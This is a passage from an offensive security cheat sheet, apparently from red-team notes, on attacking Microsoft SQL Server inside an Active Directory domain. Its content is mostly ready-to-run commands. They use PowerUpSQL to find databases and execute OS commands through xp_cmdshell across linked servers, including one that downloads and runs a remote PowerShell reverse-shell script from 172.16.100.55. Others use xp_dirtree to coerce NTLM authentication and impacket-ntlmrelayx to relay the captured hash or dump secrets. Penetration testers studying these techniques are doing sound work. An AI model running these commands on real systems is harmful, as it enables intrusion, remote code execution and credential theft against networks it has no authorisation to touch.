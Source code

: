 We can also use [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) to look for databases within the domain, and gather further information on (reachable) databases. We can also automatically look for, and execute queries or commands on, linked databases (even through multiple layers of database links).

```powershell
# Get MSSQL databases in the domain, and test connectivity
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft

# Try to get information on all domain databases
Get-SQLInstanceDomain | Get-SQLServerInfo

# Get information on a single reachable database
Get-SQLServerInfo -Instance TARGETSERVER

# Scan for MSSQL misconfigurations to escalate to SA
Invoke-SQLAudit -Verbose -Instance TARGETSERVER

# Execute SQL query
Get-SQLQuery -Query "SELECT system_user" -Instance TARGETSERVER

# Run command (enables XP_CMDSHELL automatically if required)
Invoke-SQLOSCmd -Instance TARGETSERVER -Command "whoami" |  select -ExpandProperty CommandResults

# Automatically find all linked databases
Get-SqlServerLinkCrawl -Instance TARGETSERVER | select instance,links | ft

# Run command if XP_CMDSHELL is enabled on any of the linked databases
Get-SqlServerLinkCrawl -Instance TARGETSERVER -Query 'EXEC xp_cmdshell "whoami"' | select instance,links,customquery | ft

Get-SqlServerLinkCrawl -Instance TARGETSERVER -Query 'EXEC xp_cmdshell "powershell.exe -c iex (new-object net.webclient).downloadstring(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1'')"' | select instance,links,customquery | ft
```

If you have low-privileged access to a MSSQL database and no links are present, you could potentially force NTLM authentication by using the `xp_dirtree` stored procedure to access this share. If this is successful, the NetNTLM for the SQL service account can be collected and potentially cracked or relayed to compromise machines as that service account.

```sql
EXEC master..xp_dirtree "\\192.168.49.67\share"
```

Example command to relay the hash to authenticate as local admin (if the service account has these privileges) and run `calc.exe`. Omit the `-c` parameter to attempt a `secretsdump` instead.

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.67.6 -c 'calc.exe'
```

### Abusing Group Policy Objects for lateral movement

If we identify that we have the permissions to edit and link new Group Policy Objects (GPOs) within the domain (refer to ['AD Enumeration With PowerView']({{<ref "#ad-enumeration-with-powerview" >}})), we can abuse these privileges to move laterally towards other machines.
